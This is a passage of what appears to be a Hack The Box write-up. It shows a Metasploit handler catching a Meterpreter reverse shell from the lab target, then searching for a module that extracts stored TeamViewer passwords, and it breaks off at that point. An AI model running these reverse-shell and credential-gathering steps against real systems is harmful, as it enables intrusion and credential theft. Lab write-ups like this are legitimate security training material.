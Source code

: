 Then, let's open metasploit handler in kali

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole
Metasploit tip: Enable HTTP request and response logging with set HttpTrace 
true

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh,
                                         thread, process, none)
   LHOST                      yes       The listen address (an interface m
                                        ay be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001 
[*] Sending stage (201798 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.14:9001 -> 10.10.10.180:49760) at 2024-12-06 07:50:25 -0500

meterpreter > 
```

Now let's run exploit to extract credential.

```bash
msf6 exploit(multi/handler) > search Teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/server/teamviewer_uri_smb_redirect          .                normal  No     TeamViewer Unquoted URI Handler SMB Redirect
   1  post/windows/gather/credentials/teamviewer_passwords  .                normal  No     Windows Gather TeamViewer Passwords


```